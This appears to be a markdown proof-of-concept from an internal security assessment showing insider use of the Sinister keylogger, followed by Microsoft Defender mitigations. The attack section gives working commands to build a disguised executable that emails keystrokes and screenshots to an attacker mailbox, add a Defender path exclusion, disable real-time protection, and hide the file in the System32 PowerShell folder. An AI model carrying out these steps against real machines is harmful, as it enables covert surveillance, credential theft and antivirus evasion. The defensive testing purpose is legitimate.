




# POC 2 - Keylogging and Screen Capturing

## Description

Keylogging is the process of capturing the input on the user's device without the user's knowledge. Keyloggers can be used for various purposes, both legitimate and malicious. 

legitimate reasons for the usage of keylogger software includes but is not limited to security testing and employee monitoring. 

While there are legitimate reasons to make use of keyloggers, these keyloggers can pose a serious threat towards the organisation when used by threat actors.

This attack aims to outline the threats posed to the organisation from a misuse of keylogging tool within the organisation. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of enabling and making use of the Sinister tool by either an insider or by a third party threat actor.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Git clone the Sinister repository

```
git clone https://github.com/PushpenderIndia/Sinister.git
```

2. Navigate into the repository and install all dependencies

```
# Navigate into the repository
cd Sinister

# Install dependencies
python -m pip install -r requirements.txt
```

3. Run the program with the following command replacing the fields below

```cmd
python Sinister.py -w -s -x smtp.server.com -y smtp_port_number -b C:\Windows\System32\cmd.exe -e example@email.com -p YourEmailPass -o "backup" --icon icon/chrome.ico
```

**NOTE: Modify time intervals of reporting using the following parameter**

```
# Change the reporting frequency to once a day
-t 86400
```


4. Locate the file and store it within a removable storage device

### Exploitation

1. Configure the Windows Defender as follows

```
Virus & Threat Protection > Virus & Threat Protection Settings > Manage Settings > Exclusions > Add or Remove Exclusions

Add Exclusion the following path

C:\Windows\System32\WindowsPowerShell
```


2. Switch off Real-time protection

 

3. Navigate to the following directory and upload the file within the following folder
   
```
C:\Windows\System32\WindowsPowerShell\v1.0
```


4. Execute the executable

5. Notice an email is sent towards the account that is registered


6. Perform some actions like creating a file and typing some input within the file


7. Leave the file open to test the screen capturing

8. View the email generated and sent to the specified email

Keylogging Strokes: 


Device Screen Capture: 


## Possible Mitigations and Recommendations

1. [Disable Path Exclusions](#disable-path-exclusions)
2. [Conduct Scheduled Scans](#conduct-scheduled-scans)
3. Updating Antivirus regularly

### Disable Path Exclusions

The disabling of path exclusions, will ensure that all modules that are detected to be malicious will not be able to be ignored within a real time scan. 

When threat actors set a path exclusion, the path does not get scanned by the antivirus in real time protection. This means that the files will only be detected as malicious when a quick scan, full scan or custom scan is performed. 

To combat threat actors from being able to evade a real time scan, the path exclusion settings can be configured within the group policy and enforcing the changes to the devices. 

#### Steps to Disable Path Exclusions

1. Navigate to `Windows Security > Virus & Threat Protection > Virus & Threat Protection Settings > Manage Settings > Exclusions > Add or Remove Exclusions`


2. Verify that all possible malicious paths, folders and processes are removed from the list


3. Search for `gpedit` in the search bar and launch the application


4. Using the Group Policy Management Editor go to `Computer configuration`


5. Expand the tree to `Windows components > Microsoft Defender Antivirus`


6. Within the Microsoft Defender Antivirus, Locate and `Enable` the following rule - `Control whether or not exclusions are visible to Local Admins`


7. Within Microsoft Defender Antivirus, Locate `Exclusions`


8. Configure the following policies and enfoce them


9. Enforce the newly configured policy by running the following command on `Command Prompt` or `PowerShell (as Administrator)`

Command Prompt: 
```cmd
gpupdate /force
```


PowerShell: 
```ps1
Invoke-GPUpdate -Force
```


10.  Verify that the policy has been enforced by navigating to Windows Defender and ensuring that you are unable to view and or modify the list for file exclusions


### Conduct Scheduled Scans

According to the Microsoft documentation, while folders, files and processors are within the exclusion list, the exclusion list are not used in scheduled scans. These scans includes quick scan, full scan or custom scans. 

As such by conducting regularly scheduled scans, any malicious files inserted within the system will be able to be identified quickly. 

#### Steps to Conduct Scheduled Scans

1. Open Task Scheduler and navigate to `Task Scheduler Library > Microsoft > Windows > Windows Defender`


2. Check that there is a task scheduled to conduct a scan daily


3. Create a scheduled task if the task dows not exist

**General Tab**



**Triggers Tab**


**Actions Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23100.2009-0\MpCmdRun.exe|
|Add arguments (optional)|Scan -ScheduleJob -ScanTrigger 55 -IdleScheduledJob|



**Conditions Tab**



**Settings Tab**



## References

[Sinister](https://github.com/PushpenderIndia/Sinister/tree/master)  
[How Keyloggers Work](https://www.sophos.com/en-us/cybersecurity-explained/keylogger)  
[Usages of Keyloggers](https://cybersecuritynews.com/keylogger/)  
[Removing Protection History report from Windows Defender](https://answers.microsoft.com/en-us/windows/forum/all/how-to-remove-a-protection-history-report-from/c73c5969-68fe-454e-833f-b602af0b175d)  
[Microsoft Defender Antivirus exclusions on Windows Server](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-server-exclusions-microsoft-defender-antivirus?view=o365-worldwide)  
[Schedule a Scan in Microsoft Defender](https://support.microsoft.com/en-us/windows/schedule-a-scan-in-microsoft-defender-antivirus-54b64e9c-880a-c6b6-2416-0eb330ed5d2d)  
